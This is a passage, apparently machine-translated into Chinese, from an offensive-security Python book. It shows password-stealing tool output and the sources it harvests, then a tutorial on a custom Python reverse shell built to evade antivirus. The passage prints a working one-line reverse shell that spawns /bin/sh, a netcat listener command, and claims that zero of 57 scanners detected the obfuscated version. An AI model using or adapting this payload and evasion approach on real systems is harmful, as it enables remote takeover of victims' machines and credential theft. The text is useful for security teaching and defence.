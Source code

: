 [+] 59 passwords have been found.
For more information launch it again with the -v option
```

这个工具很方便。它不仅可以提取浏览器密码，还可以从以下位置提取密码：

*   `sysadmin`
*   `all`
*   `memory`
*   `wallet`
*   `chats`
*   `mails`
*   `databases`
*   `WiFi`
*   `browsers`

# Python 用于无防病毒持久性外壳

正如我们所知，规避防病毒软件的最佳技术之一是编写自定义漏洞攻击。如果该漏洞是从头开始编写的，则防病毒引擎将代码签名与已知恶意签名进行匹配的可能性很小。在本节中，我们将编写一个自定义 shell，从受害者的机器返回一个反向 shell，并查看有多少 AV 引擎可以检测到它。

让我们编写一个自定义漏洞，将其命名为`my_car.py`，并在其中放置以下代码：

![](img/e17adf32-3de2-4d59-b1a3-b997ee0c56f2.png)

如果我们观察前面的代码，我们可以看到这是 Python 代码的一种改编，它将生成一个反向 shell 到攻击者的 IP 地址。我们正在导入 Python 模块，并在本地为导入的模块分配别名。AV 引擎主要工作在签名方法上，并且可能检测到已知签名，例如`subprocess.call["/bin/sh","-i"'\]`。在本例中，我们使用局部变量来确保攻击者的 IP、端口号、操作系统模块和其他 Python 模块未被检测到。上述代码改编自的原始代码如下所示：

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

现在让我们运行代码，看看是否得到 shell。我们将使用 Netcat 侦听器接收 shell：

```
nc -nlvp 8000
python3 my_car.py
```

执行上述命令时，会产生如下屏幕截图所示的输出：

![](img/005f4f32-081f-49bf-a68e-694f61a4c0cb.png)

我们可以看到前面的代码运行得非常好。这对我们来说很重要，看看这是否会被任何 AV 引擎接收到。让我们使用 VirusTotal 工具进行检查，如下所示：

![](img/1310a260-8cd5-4e90-aece-b03f27f315b8.png)

现在让我们看看我们是否被任何扫描引擎检测到：

![](img/4ab459e3-fec5-4f28-9eb0-ca9379387868.png)

正如我们所看到的，测试的 57 个扫描引擎中没有一个检测到该文件。

值得注意的是，在编写本章的当天，我们的检测结果为零。随着时间的推移，读者可能会上传更多的示例，后端团队可能会根据代码示例更新签名，因为我已经上传了它。后端人员团队的静态分析将其标记为恶意。然而，只要稍加修改，它就能避免再次被检测到

# 总结

在本章中，我们学习了如何开发能够避免防病毒软件的自定义漏洞攻击。我们还研究了如何开发一个定制的基于 Linux 的键盘记录器，通过网络将击键发送给远程攻击者。我们还探讨了解析 Nessus 和 Nmap 报告的各种概念。我们开始了解如何使用 Python 实用程序提取浏览器密码，以及如何解析 Twitter 提要。

这一章标志着这本书的结束。我建议您更多地了解 Python，并在攻击性安全中更频繁地应用它。一个很好的起点是采用本书中讨论的所有示例、用例和漏洞利用，并使它们尽可能通用。
```